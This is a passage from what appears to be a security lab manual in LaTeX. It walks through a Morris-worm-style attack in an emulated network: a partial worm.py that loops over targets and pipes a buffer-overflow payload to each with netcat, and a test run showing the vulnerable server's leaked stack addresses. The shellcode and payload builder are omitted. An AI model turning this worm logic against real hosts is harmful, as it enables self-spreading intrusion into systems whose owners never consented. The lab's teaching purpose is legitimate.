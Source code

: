 \begin{lstlisting}[caption={The attack code: \texttt{worm.py}}, language=Python] 
shellcode= (
   ... code omitted (will be discussed later) ...
).encode('latin-1')


# Find the next victim (return an IP address)
def getNextTarget():
    return '10.151.0.71'                                     (*@\lineone@*) 

# Create the badfile (the malicious payload)
def createBadfile():
    ... code omitted (will be discussed later) ...


############################################################
print("The worm has arrived on this host ^_^", flush=True)

# Run the ping program in the background 
subprocess.Popen(["ping -q -i2 1.2.3.4"], shell=True)        (*@\linetwo@*) 

# Create the badfile
createBadfile() 

while True:
    targetIP = getNextTarget()

    # Send the malicious payload (smaller payload) to the target host
    # This is done via exploiting the server's vulnerability
    # It will block until the command exits
    subprocess.run([f"cat badfile | nc -w3 {targetIP} 9090"], 
                     shell=True, stdin=None, close_fds=True)

    # Sleep for 1000 seconds before attacking another host
    # We will reduce this value later
    time.sleep(1000) 
\end{lstlisting}



\subsection{Creating the badfile} 

Let's first send a benign message to our target server.
We will see the following messages printed out by the 
target container (the actual messages you see may be different).

\begin{lstlisting}
// On the host machine 
$ echo hello | nc -w2 10.151.0.71 9090

// Messages printed out by the container
as151h-host_0-10.151.0.71  | Starting stack
as151h-host_0-10.151.0.71  | Input size: 6
as151h-host_0-10.151.0.71  | Frame Pointer (ebp) inside bof(): 0xffffd5f8  (*@\ding{80}@*)
as151h-host_0-10.151.0.71  | Buffer's address inside bof():    0xffffd588  (*@\ding{80}@*)
as151h-host_0-10.151.0.71  | ==== Returned Properly ====
\end{lstlisting}
 
